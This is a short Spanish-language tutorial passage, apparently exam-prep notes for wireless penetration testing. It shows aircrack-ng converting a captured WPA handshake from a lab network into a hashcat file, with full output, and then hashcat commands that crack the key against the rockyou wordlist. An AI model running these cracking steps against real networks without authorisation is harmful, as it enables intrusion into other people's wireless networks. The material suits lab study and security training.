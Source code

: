 ```bash
# sudo aircrack-ng -j hashcatCapture Captura-01.cap

Opening Captura-01.cape wait...
Read 5110 packets.

   #  BSSID              ESSID                     Encryption

   1  20:34:FB:B1:C5:53  hacklab                   WPA (1 handshake)

Choosing first network as target.

Opening Captura-01.cape wait...
Read 5110 packets.

1 potential targets



Building Hashcat (3.60+) file...

[*] ESSID (length: 7): hacklab
[*] Key version: 2
[*] BSSID: 20:34:FB:B1:C5:53
[*] STA: 34:41:5D:46:D1:38
[*] anonce:
    FE AD BB C5 CA AC 3C 41 52 56 B1 44 5D 61 29 2A 
    72 E1 7D 73 6A 5E 16 A5 15 88 E4 9E 58 42 EC 78 
[*] snonce:
    47 5D 5A 50 E4 2D 1D 18 F8 67 5B 0A B6 B1 FF 1F 
    6A 85 82 EC 66 3E 92 2A F0 CC B2 05 F3 8B DE E0 
[*] Key MIC:
    0C 0E B7 91 69 C1 FE FD E5 D9 08 42 2E E4 A5 3C
[*] eapol:
    01 03 00 75 02 01 0A 00 00 00 00 00 00 00 00 00 
    01 47 5D 5A 50 E4 2D 1D 18 F8 67 5B 0A B6 B1 FF 
    1F 6A 85 82 EC 66 3E 92 2A F0 CC B2 05 F3 8B DE 
    E0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 16 30 14 01 00 00 0F AC 04 01 00 00 0F AC 
    04 01 00 00 0F AC 02 00 00 

Successfully written to hashcatCapture.hccapx
``` 

Y crackeamos con hashcat:

- sudo hashcat -m 2500 -d 1 hashcatCapture.hccapx /usr/share/wordlists/rockyou.txt

- sudo hashcat -m 2500 -d 1 hashcatCapture.hccapx /usr/share/wordlists/rockyou.txt --force -w 3

Y para imprimir solo la contraseña encontrada previamente:

- sudo hashcat --show -m 2500 hashcatCapture.hccapx 


Fuente: [https://s4vitar.github.io/oswp-preparacion/#](https://s4vitar.github.io/oswp-preparacion/#)

